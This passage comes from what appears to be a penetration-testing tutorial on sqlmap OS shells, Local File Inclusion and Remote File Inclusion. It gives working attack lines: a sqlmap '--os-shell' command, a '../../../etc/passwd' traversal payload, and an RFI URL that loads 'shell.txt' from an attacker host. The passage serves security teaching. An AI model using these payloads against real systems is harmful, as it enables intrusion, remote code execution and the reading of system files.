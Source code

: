 Like this, you have to select web application language, select language and after that, it will ask you for directory select 1.

After that it will ask for you to want to use, you can use anyone, select 1 for meterpreter, after that, it instantly loads Metasploit framework and gives you meterpreter shell.


We can use other sqlmap feature also the name '--os-shell'

```
# sqlmap -u https://www.target.com/user/profile?id=1 -D targetcorp --os-shell
```

**File Inclusion Vulnerability**

There are two types of file inclusion vulnerabilities **Local File Inclusion** and **Remote File Inclusion**, depending on where the file to include is located.

The reason behind this vulnerability is 'include()' function, where path characters are not stripped from the input, and the input is used as part of an 'include().

**Exploiting Local File Inclusion**

In LFI we can include any local file on the web page.

Suppose in previous phases we found an URL is vulnerable to LFI, Now we are going to exploit it.

```
URL: http://targetcorp.com/index.php?file=welcome.php
```

Let's change the URL to our arbitrary file include URL.

```
URL: http://targetcorp.com/index.php?file=../../../etc/passwd
```

It will include all the content of `/etc/passwd` file on the webpage.

Like this, you can include any file, and see the content of that file.



**Exploitation of Remote File Inclusion**

In RFI we can include any remote file and execute it instead of only inclusion.


In previous phases, we found an URL that is vulnerable to RFI.

```
URL: http://targetcorp.com/vuln.php?file=
```
As you can see the parameter 'file' is vulnerable to RFI, and we can leverage its remote code execution in the target system.

To exploit this vulnerability we must not include the 'php' file in our attacker server, otherwise, it will execute it in the attacker server.

We can simply change the file extension to '.txt' and include it in the target URL, Like this.

```
http://targetcorp.com/vuln.php?file=atacker.com/shell.txt
```
**We can also use metasploit to exploit these vulnerabilities.**
